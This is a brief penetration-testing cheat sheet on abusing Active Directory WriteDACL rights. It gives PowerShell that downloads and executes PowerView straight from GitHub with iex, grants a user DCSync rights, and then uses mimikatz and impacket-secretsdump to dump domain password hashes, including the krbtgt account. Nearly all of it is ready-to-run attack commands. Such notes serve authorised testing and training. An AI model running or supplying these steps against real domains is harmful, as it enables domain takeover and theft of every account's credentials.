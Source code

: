 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# PowerView

Downloadable at [PowerView](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1)

## WriteDACL Permission
The WriteDACL privilege gives a user the ability to add ACLs to an
object. This means that we can add a user to this group and give them DCSync privileges.
**After you have created a new user - Then give him DCSync permission**
````powershell
$pass = convertto-securestring '<password' -asplain -force
$cred = new-object system.management.automation.pscredential('<domain>\<username>',$pass)
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
Add-ObjectACL -PrincipalIdentity <username> -Credentials $cred -Rights DCSync
````
### DCSyncing Hashes
Since the user has now the required privileges to use DCSync, we can use mimikatz or secretdump to dump password hashes from the DC via:
````powershell
lsadump::dcsync /user:krbtgt
````
````powershell
impacket-secretsdump <domain>\<username>@<IP-ADDRESS>
````


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
